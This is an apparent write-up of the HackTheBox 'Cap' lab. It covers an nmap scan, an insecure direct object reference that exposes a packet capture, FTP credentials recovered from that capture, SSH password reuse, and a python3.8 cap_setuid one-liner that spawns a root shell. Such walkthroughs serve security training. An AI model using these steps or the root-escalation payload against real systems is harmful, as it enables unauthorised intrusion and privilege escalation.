 # Hackthebox Cap

![cap](/cap.png)

**Operating System** : GNU/Linux

**Difficulty** : Easy

**Points** : 20

**Creator** : InfoSecJack

# Nmap Scan

```bash
Starting Nmap 7.91 ( https://nmap.org ) at 2021-06-09 20:53 IST
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    gunicorn
```
# Security Snapshot
Going to the security snapshot link in the right panel, we see that it redirects us to `/data/1` and gives us a pcap file showing our connection to the server. Modifying the `1` to `0` we get all the inside server sniffed data.
![cap sniffed data](/cap_server_sniffed_data.png)

From that pcap file, we get the ftp credentials
```
nathan:Buck3tH4TF0RM3!
```

# SSH
Fortunately, nathan has reused the password in SSH, so we can directly login to the server by the same password.

# Getting User Flag
![cap user](/cap_user_flag.png)

# Privilege Escalation
From running linpeas, we find that python3.8 has cap_setuid and we can exploit it to get root using this payload.
```python
/usr/bin/python3.8 -c 'import os; os.setuid(0); os.system("/bin/bash");'
```
## Getting root.txt
![cap root](/cap_root_flag.png)
